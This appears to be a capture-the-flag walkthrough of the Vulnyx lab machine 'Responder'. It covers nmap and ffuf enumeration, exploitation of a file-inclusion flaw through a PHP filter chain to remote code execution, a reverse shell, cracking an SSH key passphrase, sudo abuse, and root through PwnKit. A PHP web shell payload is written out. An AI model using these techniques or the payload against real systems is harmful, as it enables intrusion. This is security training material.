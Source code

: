## First Enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Sun Apr 14 01:37:38 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80 -Pn 172.16.246.130
Nmap scan report for 172.16.246.130
Host is up (0.00021s latency).

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 01:37:46 2024 -- 1 IP address (1 host up) scanned in 8.09 seconds
```
we have only one port open. 


## Enumerating the web app 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/da0a7624-0fb4-4b77-b379-ac112d683e43)

opening the ip on a browser, we got a weird info sayin `your ansswer is your answer`.

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Responder]
└─$ ffuf -u 'http://172.16.246.130/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic -e .php,.bak,.txt,.sql,.env,.sh,.phtml,.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.246.130/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Extensions       : .php .bak .txt .sql .env .sh .phtml .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 31, Words: 6, Lines: 2, Duration: 2ms]
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 201ms]
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 206ms]
                        [Status: 200, Size: 31, Words: 6, Lines: 2, Duration: 5ms]
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 5ms]
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 5ms]
filemanager.php         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 54ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 7ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

fuzzing for hidden dirs , we got a `filemanager.php`. Opening it on a browser, got redirected to the home page. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Responder]
└─$ ffuf -ic -u "http://responder/filemanager.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://responder/filemanager.php?FUZZ=/etc/hosts
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

random                  [Status: 302, Size: 183, Words: 19, Lines: 8, Duration: 9ms]
:: Progress: [87651/87651] :: Job [1/1] :: 2679 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```
the param `filemanager.php` looks like a potential `LFI` endpoint. so fuzzing, we got the parameter. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/26ab9065-7b65-44dd-a010-105d3bbd3895)

using burpsuite to intercept request, we can see there's an LFI vulnerability present let's exploit the LFI to RCE

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d4838b94-e6d8-460a-94ce-47112194ed6e)

There's a tool i use in exploiting LFI, it's a php chain generator to trigger RCE. [link](https://github.com/synacktiv/php_filter_chain_generator).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0161d13c-5b00-41c0-8f95-663ed966a79e)

try to trigger a phpinfo. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/71e450bf-74f2-4832-b311-a404f2e123c2)

we trigger it success, let's try out RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/10f656eb-a20f-4205-9be9-9ced4993314a)

```shell
 python3 php_filter_chain_generator.py --chain '<?php system($_GET['cmd']); ?>'
```
using the command sytanx to create an RCE payload 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7775fb90-0def-42e5-96bc-88ed846850bc)

we trigger RCE!!!, let's spawn a reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de43109a-c82f-4eb2-a585-55822dd9cac8)

we got a reverse shell!!!


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf628938-36d2-4dca-ba70-64ff480584cf)

the web root dir, `filemanager.php` contains id_rsa key. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e660318a-840f-4871-b307-58f192422b02)

using `ssh2john` to cinvert to hash and crack it using hhashcat, we got the password `elliott`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ade722fa-495d-435f-9719-6d7bf5faa704)

login using the key and the passphrase of the id_rsa key.

```shell
elliot@responder:~$ sudo -l
Matching Defaults entries for elliot on responder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elliot may run the following commands on responder:
    (rohit) NOPASSWD: /usr/bin/calc
elliot@responder:~$ 
```
checking sudo permissions, we can see we can run `calc` as user rohit without password. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/25ebc95d-a59a-401d-b38c-2a86106e20d3)

Abusing the binary `calc` gave us shell as user `rohit`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c19d7cce-62df-4af1-8871-a83f44ad6481)

After many research, trying to exploit it, decided to try out `PwnKit` [PwnKit](https://github.com/ly4k/PwnKit).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5ed7c996-da74-47aa-a830-44baedda24c0)

Followed the instruction from github and Boom!!! we rooted it!!!. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1621110a-1070-4660-ac48-fd698de62165)

And we are through!!! 🙂
